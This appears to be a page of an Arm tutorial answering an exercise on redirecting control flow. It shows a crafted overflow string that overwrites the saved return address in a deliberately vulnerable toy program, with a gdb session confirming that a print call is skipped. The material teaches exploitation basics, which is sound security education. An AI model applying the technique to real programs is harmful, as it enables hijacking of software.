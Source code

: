 ```yaml
---
title: Redirect control flow - answer to the exercise
weight: 7

### FIXED, DO NOT MODIFY
layout: learningpathall
---
```



One string that could be a solution to exercise 3 at the end of the previous
section is:

```
$'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
```

We created this string by:

1. First filling the string with arbitrary characters for bytes 0 till 15.

2. Starting at byte 16, we fill in the address we want the return address to
   take. One special consideration to take is that we are working on a
   little-endian target. Therefore, we have to reverse the order of the bytes
   of the address in the string.

Let's see if it works:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
0123456789012345
```

Success! The program no longer prints the string
`"The string on the command line was: "`!

Time for a little celebration: 🎉

Now let's check in detail by stepping through the program that this is working
as we expect:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
gdb -q --args ./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
Reading symbols from ./redirect1...
```

```text { output_lines = "2-30" }
(gdb) break f
Breakpoint 1 at 0x7e4: file redirect1.c, line 8.
```

```text { output_lines = "2-30" }
(gdb) run
Starting program: /armlearningpaths/redirect1 0123456789012345\
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Breakpoint 1, f (src=src@entry=0xfffffffff927 "0123456789012345 \b\252\252\252\252") at redirect1.c:8
8           strcpy(buffer, src);
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
=> 0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x0000000000000002
0xfffffffff580: 0x0000fffffffff590      0x0000aaaaaaaa0814
```

We see that before the buffer overflow in `strcpy` is executed, the stored value
of `x30` on the stack is as it should be: `0xaaaaaaaa0814`.

```text { output_lines = "2-30" }
(gdb) nexti 2
9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
=> 0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x3736353433323130
0xfffffffff580: 0x3534333231303938      0x0000aaaaaaaa0820
```

After the buffer overflow has happened in `strcpy`, the stored value of `x30` on
the stack has changed indeed to the value `oxaaaaaaaa0820`.

```text { output_lines = "2-30" }
(gdb) nexti 3
0x0000aaaaaaaa07f8      9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
=> 0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) stepi
main (argc=<optimized out>, argv=<optimized out>) at redirect1.c:16
16          puts(chars);
```

```text { output_lines = "2-30" }
(gdb) disass
Dump of assembler code for function main:
   0x0000aaaaaaaa07fc <+0>:     stp     x29, x30, [sp, #-32]!
   0x0000aaaaaaaa0800 <+4>:     str     x19, [sp, #16]
   0x0000aaaaaaaa0804 <+8>:     mov     x29, sp
   0x0000aaaaaaaa0808 <+12>:    ldr     x19, [x1, #8]
   0x0000aaaaaaaa080c <+16>:    mov     x0, x19
   0x0000aaaaaaaa0810 <+20>:    bl      0xaaaaaaaa07d4 <f>
   0x0000aaaaaaaa0814 <+24>:    adrp    x0, 0xaaaaaaaa0000
   0x0000aaaaaaaa0818 <+28>:    add     x0, x0, #0x850
   0x0000aaaaaaaa081c <+32>:    bl      0xaaaaaaaa0670 <puts@plt>
=> 0x0000aaaaaaaa0820 <+36>:    mov     x0, x19
   0x0000aaaaaaaa0824 <+40>:    bl      0xaaaaaaaa0670 <puts@plt>
   0x0000aaaaaaaa0828 <+44>:    ldr     x19, [sp, #16]
   0x0000aaaaaaaa082c <+48>:    mov     w0, wzr
   0x0000aaaaaaaa0830 <+52>:    ldp     x29, x30, [sp], #32
   0x0000aaaaaaaa0834 <+56>:    ret
End of assembler dump.
(gdb)
```

And indeed, rather than returning to `0xaaaaaaaa0814`, the instruction after the call to function `f` has returned to
`0xaaaaaaaa0820`, skipping the first call to `puts`.
